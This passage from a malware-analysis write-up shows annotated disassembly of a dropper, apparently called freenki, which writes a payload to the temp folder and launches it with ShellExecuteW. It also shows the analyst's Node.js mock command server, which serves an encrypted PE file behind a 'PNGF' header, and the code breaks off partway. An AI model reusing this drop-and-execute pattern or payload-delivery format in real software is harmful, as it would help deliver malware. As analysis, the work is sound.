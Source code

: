 
```nasm
01302357  |.  8B95 F4FBFFFF MOV EDX,DWORD PTR SS:[EBP-40C]
0130235D  |.  8BCB          MOV ECX,EBX
0130235F  |.  E8 BCFDFFFF   CALL ExecBinary


01302198  |.  50            PUSH EAX                                                ; /Buffer = ""
01302199  |.  68 FF000000   PUSH 0FF                                                ; |Bufcount = 255.
0130219E  |.  FF15 88903101 CALL DWORD PTR DS:[<&KERNEL32.GetTempPathW>]            ; \KERNEL32.GetTempPathW

013021FC  |.  68 F4F83101   PUSH OFFSET 0131F8F4                                    ; UNICODE "%s\%s.exe"
01302201  |.  50            PUSH EAX
01302202  |.  E8 79F7FFFF   CALL 01301980
01302207  |.  8D85 FCFBFFFF LEA EAX,[EBP-404]
0130220D  |.  68 08F93101   PUSH OFFSET 0131F908                                    ; UNICODE "wb"
01302212  |.  50            PUSH EAX
01302213  |.  E8 AF900000   CALL 0130B2C7


01302255  |.  8D85 FCFDFFFF LEA EAX,[EBP-204]
01302263  |.  6A 00         PUSH 0                                                  ; /Arg6 = 0
01302265  |.  6A 00         PUSH 0                                                  ; |Arg5 = 0
01302267  |.  50            PUSH EAX                                                ; |Arg4
01302268  |.  8D85 FCFBFFFF LEA EAX,[EBP-404]                                       ; |
0130226E  |.  50            PUSH EAX                                                ; |Arg3
0130226F  |.  68 1CF93101   PUSH OFFSET 0131F91C                                    ; |Arg2 = UNICODE "open"
01302274  |.  6A 00         PUSH 0                                                  ; |Arg1 = 0
01302276  |.  FF15 88913101 CALL DWORD PTR DS:[<&SHELL32.ShellExecuteW>]            ; \SHELL32.ShellExecuteW
```

It writes the data to a temp file and execute it, with argument `abai`. If the binary fails, it will terminate it self, there is a SEH handler setup to terminate if something goes wrong.

## The dummy server

Write a dummy server to response and return a PE file that will open a message box, `You've been hacked`. I tried to work with python, but it was not good, so I switch to nodejs.

```js
const hacked_binary = Buffer.from(fs.readFileSync('./freenki_hacked.exe', { encoding: 'hex' }), 'hex');

const requestHandler = (request, response) => {

  console.log('================INCOMMING REQUEST===============');
  console.log(request.method + ":" + request.url);
  console.log(request.headers);

  if (request.url == '/hello_world') {
    payload = encrypt(hacked_binary);
    msg = Buffer.concat([Buffer.from('PNGF'), parity(payload), payload]);
    console.log('=> bad PE file');
    response.write(msg);
    response.end();
    return;
  }

  let body = [];
  request.on('error', (err) => {
```